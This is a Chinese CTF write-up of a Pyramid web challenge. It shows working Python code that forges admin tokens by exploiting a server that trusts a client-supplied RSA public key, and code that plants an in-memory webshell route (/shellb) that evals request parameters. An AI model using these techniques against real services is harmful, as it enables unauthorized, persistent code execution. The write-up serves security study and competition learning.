









## 前言

最近参加了强网杯S8的决赛，WEB一共两题这个题目代码并不多但是考察点很创新，并且涉及了从没出现过的Pyramid框架下内存马，线下时间紧张最后20分钟才调试出来，遂记录漏洞分析过程。（本文已发表收录于奇安信攻防社区：[**https://forum.butian.net/share/3974**](https://forum.butian.net/share/3974)）

## 1. 题目结构与授权入口

题目通过 Pyramid 注册了 `/api/register` 和 `/api/test` 两个关键路由。注册接口会为用户生成 Token，测试接口则要求 Token 解码后的 `username` 必须是 `admin`，随后直接执行 `code` 参数：

```python
def system_test(request):
    try:
        code = request.params["code"]
        token = request.params["token"]
        data = util.data_decode(token)
        if data:
            username = data["username"]
            if username in super_user:
                print("Welcome super_user!")
            else:
                return Response("Unauthorized", status="401 Unauthorized")
        else:
            return Response("Unauthorized", status="401 Unauthorized")
    except Exception:
        return Response("Please Input code & token")

    print(exec(code))
    return Response("Success!")
```

因此，攻击链可以拆成两步：

1. 伪造一个解码结果为 `username=admin` 的有效 Token
2. 利用 `/api/test` 的代码执行能力，在进程内注册一个新的 Pyramid 路由

## 2. RS 签名伪造

### 2.1 Token 的组成

题目默认使用 `RS` 算法生成 Token。Token 由点号分隔的四个字段组成：

| 字段 | 内容 |
| --- | --- |
| 第一个字段 | Base64 编码的 JSON 数据 |
| 第二个字段 | RSA 签名 |
| 第三个字段 | 算法名称 `RS` |
| 第四个字段 | Base64 编码的 RSA 公钥 |

正常情况下，验证签名应该使用服务端可信的公钥。但 `data_decode` 会把 Token 第四个字段中的公钥直接取出来：

```python
def data_decode(encode_data):
    all_data = encode_data.split(".")
    data = base64.b64decode(all_data[0]).decode("utf-8")
    json_data = json.loads(data)
    signature = base64.b64decode(all_data[1])
    alg = base64.b64decode(all_data[2]).decode("utf-8")

    key = secret
    if len(all_data) == 4:
        key = base64.b64decode(all_data[3])

    if verify_signature(key, json_data, signature, alg):
        return json_data
    return False
```

这意味着攻击者可以自己生成一对 RSA 密钥，把自己的公钥放进第四个字段，再使用对应私钥为任意 JSON 数据签名。RSA 算法本身没有被破解，问题在于服务端信任了客户端提交的验签公钥。



注册普通用户可以观察到 Token 的结构：



调试 `data_decode` 可以确认第四个字段会被 Base64 解码并作为验签密钥：



验签函数最终使用这个公钥验证签名：



### 2.2 生成管理员 Token

本地生成密钥、签名并拼接四个字段即可得到管理员 Token。关键代码如下：

```python
import base64
import json
from Crypto.Hash import SHA256
from Crypto.PublicKey import RSA
from Crypto.Signature import pkcs1_15


def generate_keys():
    key = RSA.generate(2048)
    return key.export_key(), key.publickey().export_key()


def forge_token():
    private_key, public_key = generate_keys()
    data = {"username": "admin", "password": "password"}

    data_text = json.dumps(data)
    digest = SHA256.new(data_text.encode("utf-8"))
    signature = pkcs1_15.new(RSA.import_key(private_key)).sign(digest)

    fields = [
        base64.b64encode(data_text.encode("utf-8")),
        base64.b64encode(signature),
        base64.b64encode(b"RS"),
        base64.b64encode(public_key),
    ]
    return ".".join(field.decode() for field in fields)


print(forge_token())
```

将生成的 Token 作为 `/api/test` 的 `token` 参数后，授权判断会把数据识别为 `admin`，从而进入代码执行分支。

## 3. Pyramid 框架下的内存马

### 3.1 从栈帧获取全局对象

题目不出网且执行结果不容易直接回显，因此目标不是只执行一条命令，而是把新的处理逻辑写入当前 Python 进程。首先需要从当前执行栈中拿到模块的全局变量，进而取得创建 Pyramid 应用时使用的 `config` 对象。

题目通过 `Configurator` 创建 WSGI 应用：



Pyramid 的 `Configurator` 提供了 `add_route` 和 `add_view` 等方法：



可以借助生成器的栈帧获取当前调用链中的全局命名空间：

```python
def get_globals():
    def capture_frame():
        yield generator.gi_frame.f_back

    generator = capture_frame()
    frame = next(generator)
    return frame.f_back.f_back.f_globals


namespace = get_globals()
config = namespace["config"]
Response = namespace["Response"]
```

其中 `gi_frame` 指向生成器的执行帧，`f_back` 可以沿着调用栈向上寻找调用者，最终取得模块的 `f_globals`。



### 3.2 动态注册路由

拿到 `config` 后，可以仿照题目的初始化代码注册一个新的路由：

```python
def hello(request):
    code = request.params["code"]
    result = eval(code)
    return Response(result)


config.add_route("shellb", "/shellb")
config.add_view(hello, route_name="shellb")
```

第一次注册后访问 `/shellb` 仍然返回 404。原因是应用已经在 `config.make_wsgi_app()` 阶段完成了一轮配置，之后追加的路由操作仍然处于待处理状态：

```python
app = config.make_wsgi_app()
```

Pyramid 的 `Configurator.commit()` 会提交待处理的配置操作。于是，在添加路由和视图后再执行一次 `commit`：

```python
config.add_route("shellb", "/shellb")
config.add_view(hello, route_name="shellb")
config.commit()
```



之后访问 `/shellb?code=...` 即可触发新注册的视图：



这个路由只存在于当前 Python 进程的内存中，服务重启后会消失，因此属于典型的内存马形态。

## 4. 攻击链总结

| 阶段 | 利用点 | 结果 |
| --- | --- | --- |
| Token 解析 | 信任客户端提交的 RSA 公钥 | 可以为 `username=admin` 的数据自行签名 |
| 授权入口 | `/api/test` 对 `code` 直接执行 `exec` | 获得进程内代码执行 |
| 框架对象获取 | 从栈帧读取模块全局变量 | 取得 Pyramid `Configurator` 和 `Response` |
| 路由注册 | `add_route`、`add_view` 后调用 `commit` | 动态写入 `/shellb` 内存路由 |
| 后续执行 | 内存路由中执行请求参数 | 获得稳定的进程内命令执行入口 |

这道题的关键不是单独利用某一个函数，而是把**签名校验缺陷、Python 栈帧特性和 Pyramid 配置生命周期**串成一条完整链路。
